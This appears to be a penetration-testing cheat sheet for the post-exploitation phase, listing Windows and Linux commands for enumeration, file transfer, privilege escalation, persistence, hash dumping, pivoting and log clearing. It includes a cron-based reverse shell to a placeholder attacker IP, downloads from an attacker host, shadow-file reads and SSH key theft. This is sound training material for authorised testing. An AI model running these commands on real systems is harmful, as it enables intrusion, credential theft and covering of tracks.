 
---

### Introduction to Post-Exploitation

Post-exploitation is the final phase of a penetration test. It encompasses the tactics, techniques, and procedures (TTPs) used by adversaries after gaining initial access to a target system. The actions taken depend on the level of access, the stealth required, and the configuration of the target system.

---

### Post-Exploitation Methodology

1. **Local Enumeration**
    
2. **Transferring Files**
    
3. **Upgrading Shells**
    
4. **Privilege Escalation**
    
5. **Persistence**
    
6. **Dumping and Cracking Hashes**
    
7. **Pivoting**
    
8. **Clearing Your Tracks**
    

---

### Windows Local Enumeration

#### Enumerating System Information

```
getuid
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,Installation
```

#### Enumerating Users & Groups

```
meterpreter > getuid
meterpreter > getprivs
whoami
whoami /priv
query user
net users
net user <username>
net localgroup Administrator
```

#### Enumerating Network Information

```
ipconfig /all
route print
arp -a
netstat -ano
netsh advfirewall show allprofiles
```

#### Enumerating Processes & Services

```
meterpreter > ps
meterpreter > migrate <PID>
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```

#### Automating Enumeration

Tool: [JAWS](https://github.com/411Hall/JAWS)

```
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

---

### Linux Local Enumeration

#### Enumerating System Info

```
hostname
cat /etc/issue
cat /etc/*release
uname -r
env
lscpu
free -h
df -h
lsblk | grep sd
dpkg -l
```

#### Enumerating Users & Groups

```
whoami
groups <User>
cat /etc/passwd
cat /etc/passwd | grep -v /nologin
ls /home
who
last
lastlog
```

#### Enumerating Network Information

```
ip a s
cat /etc/networks
cat /etc/hosts
cat /etc/hostname
cat /etc/resolv.conf
```

#### Enumerating Processes & Cron Jobs

```
ps aux
top
crontab -l
ls -al /etc/cron*
```

#### Automating Enumeration

Tool: [LinEnum](https://github.com/rebootuser/LinEnum)

```
./LinEnum.sh
```

---

### Transferring Files to Targets

#### Python Web Server

```
python3 -m http.server <Port>
```

#### To Windows

```
certutil -urlcache -f http://<AttackerIP>/file FileName
```

#### To Linux

```
wget http://<AttackerIP>/file
```

---

### Upgrading Shells (Linux)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

---

### Privilege Escalation

#### Windows

Tool: [PrivscCheck](https://github.com/itm4n/PrivescCheck)

```
powershell.exe -ep bypass ". .\PrivscCheck.ps1; Invoke-PrivscCheck"
```

#### Linux - Weak Permissions

```
find / -not -type l -perm -o+w
ls -al /etc/shadow
openssl passwd -1 -salt abc Password
```

#### Linux - Sudo Privileges

```
sudo -l
sudo man man
!/bin/bash
```

---

### Persistence

#### Windows - Services

```
msf6 > use exploit/windows/local/persistence_service
```

#### Windows - RDP

```
meterpreter > run getgui -e -u <User> -p <Password>
xfreerdp /u:<User> /p:<Password> /v:<TargetIP>
```

#### Linux - SSH Keys

```
scp user@<TargetIP>:~/.ssh/id_rsa
ssh -i id_rsa user@<TargetIP>
```

#### Linux - Cron Jobs

```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<AttackerIP>/<Port> 0>&1'" | crontab -
```

---

### Dumping & Cracking Hashes

#### Windows - NTLM

Tools: Mimikatz, Hashcat, John

```
meterpreter > hashdump
john --format=NT hashfile --wordlist=/path/to/wordlist
hashcat -a3 -m 1000 hashfile /path/to/wordlist
```

#### Linux - Shadow File

```
cat /etc/shadow
john --format=sha512crypt /path/to/hash --wordlist=/path/to/wordlist
hashcat -a3 -m 1800 hashfile /path/to/wordlist
```

---

### Pivoting

```
meterpreter > run autoroute -s <Network/Subnet>
portfwd add -l <LocalPort> -p <TargetPort> -r <TargetIP>
```

---

### Clearing Your Tracks

#### Windows

```
meterpreter > clearev
```

#### Linux

```
history -c
```

---

